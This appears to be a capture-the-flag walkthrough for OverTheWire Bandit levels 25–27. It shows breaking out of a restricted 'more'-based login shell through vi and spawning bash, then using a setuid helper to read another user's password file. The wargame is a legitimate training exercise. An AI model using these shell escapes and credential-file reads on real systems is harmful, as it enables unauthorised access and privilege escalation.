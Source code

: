 ### Level 25 -> 26 ###
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

Solution:
```
bandit25@bandit:~$ ls -la
total 32
drwxr-xr-x  2 root     root     4096 May 14  2020 .
drwxr-xr-x 41 root     root     4096 May  7  2020 ..
-rw-r-----  1 bandit25 bandit25   33 May 14  2020 .bandit24.password
-r--------  1 bandit25 bandit25 1679 May  7  2020 bandit26.sshkey
-rw-r--r--  1 root     root      220 May 15  2017 .bash_logout
-rw-r--r--  1 root     root     3526 May 15  2017 .bashrc
-rw-r-----  1 bandit25 bandit25    4 May 14  2020 .pin
-rw-r--r--  1 root     root      675 May 15  2017 .profile
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
bandit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

more ~/text.txt
exit 0
```
Due to that ```exit 0``` we are sure to be kicked out everytime we would try to get to ```bandit26```, but, using [GTFOBins'](https://gtfobins.github.io/gtfobins/more/) suggestion, if we reduce the terminal size to very small sizes and press ```v``` we will drop into our default editor, where we could spawn our shell:
```
:set shell=/bin/bash
:shell
```
And we get to the next level:
```
bandit26@bandit:~$ whoami
bandit26
```

### Level 26 -> 27 ###
Good job getting a shell! Now hurry and grab the password for bandit27!

Solution:
```
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
```
